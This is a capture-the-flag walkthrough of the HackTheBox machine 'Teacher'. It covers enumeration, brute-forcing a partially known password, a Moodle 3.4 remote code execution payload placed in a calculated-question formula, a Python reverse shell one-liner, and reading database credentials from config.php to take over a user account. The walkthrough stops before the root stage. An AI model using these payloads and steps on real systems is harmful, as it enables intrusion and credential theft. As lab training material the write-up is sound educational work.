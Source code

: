 Okay, first of all - we do some info gathering. Using nmap says we have an apache httpd server and nothing more. Searching through the website reveals nothing (checking source, running nikto and checking cookies/http headers).
From here I was stuck, so I went to the forum to check for some hints - it seems like there is a corrupted file. Obviously, it should be in /images folder because it contains most of the files. Checking every photo will be time consuming, but this is the only way (or to write a small script).
```
root@kali:~/Downloads# strings 5.png
Hi Servicedesk,
I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.
Could you guys figure out what the last charachter is, or just reset it?
Thanks,
Giovanni
```
Now, we should find a login page. I used dirb to run again a common word list and found a few interesting directories, one of them is obviously the primary suspect (as a student, I can't believe I didn't think about it):
```
root@kali:~/Downloads# dirb http://10.10.10.153

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Mar  5 14:16:34 2019
URL_BASE: http://10.10.10.153/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.153/ ----
==> DIRECTORY: http://10.10.10.153/css/                                                                               
==> DIRECTORY: http://10.10.10.153/fonts/                                                                             
==> DIRECTORY: http://10.10.10.153/images/                                                                            
+ http://10.10.10.153/index.html (CODE:200|SIZE:8028)                                                                 
==> DIRECTORY: http://10.10.10.153/javascript/                                                                        
==> DIRECTORY: http://10.10.10.153/js/                                                                                
==> DIRECTORY: http://10.10.10.153/manual/                                                                            
==> DIRECTORY: http://10.10.10.153/moodle/                                                                            
+ http://10.10.10.153/phpmyadmin (CODE:403|SIZE:297)                                                                  
+ http://10.10.10.153/server-status (CODE:403|SIZE:300) 
```
Now we want to login to Giovanni's user.
we immidiately can see that the teachers name is Giovanni Chhatta therefor it's the login name. Now, we know we have a missing char at the end of the pass, so let's use bruteforce with Hydra to find it quickly. I created a password file with python:
```
import string
password="Th4C00lTheacha"
for x in string.printable:
    print(password+x)
```
and then used it to crack the pass with Hydra. Unfortunately, it didn't work, Hydra only produced false-positives. I decided to write my own brute forcer, you can check it inside the files. You can crack it with hydra, but I didn't want to do that when I can write a quick script.

Now that we are in the system, what do we do? Obviously, we look for an exploit. Googling a bit helps to find the version of our moodle which is 3.4 (click on "Moodle Docs for this page"). I must admit, I tried several exploits until I found this one:
https://blog.ripstech.com/2018/moodle-remote-code-execution/#substitute_variables

First of all, read it. It's interesting + let's you know what you are going to do. Now that we know we need to open a calculated question, we input the calculated formula "/*{a*/`$_GET[0]`;//{x}}". It gives us the ability to execute eval() via the GET request. Instead of writing /etc/passwd (which you probably tried and failed, because we cannot write to folders with our current user), we want to get a remote shell. Now, let me save you some time - we want interactive shell, thus netcat won't we a good option. I used python shell:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("**10.0.0.1**",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
As seen in the video, we append the shell at the end of the query as follows: `&0=(OUR_SHELL)`. 

Okay, so now we have a shell and the current user is /var/wwww and we cannot read giovanni's folder. We need to find some way to log into his account (this is why I wrote we need interactive shell). I personally know that usually important information is stored in config.php, but googling for configuration file for moodle, or doing some enumeration like searching for 'root' keywords in file will help us to find some tail. Opening config.php in /moodle folder reveals credentials for mariadb. 
We login to it and get our information:
```
$ mysql -h localhost -P 3306 -u root -p*** moodle
show tables;
Tables_in_moodle
.
.
.
```
we are interested in mdl_user_password_history. For some reason, the output wasn't on the screen so I had to write it into a file, so I reconnected:
```
$ mysql -h localhost -P 3306 -u root -pWelkom1! moodle > output
select * from mdl_user_password_history;
\q
$ cat output
...
```
We notice Giovannibak with a hash (easy to crack). This is the password for Giovanni's account, we almost have the user.
Now we want to upgrade our shell in order to login to his user:
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@teacher:/var/www/html/moodle/question$ 
www-data@teacher:/var/www/html/moodle/question$ su giovanni
su giovanni
Password: ****
giovanni@teacher:/var/www/html/moodle/question$ cd ~
cd ~
giovanni@teacher:~$ ls
ls
user.txt  work
```

Next to root:


```

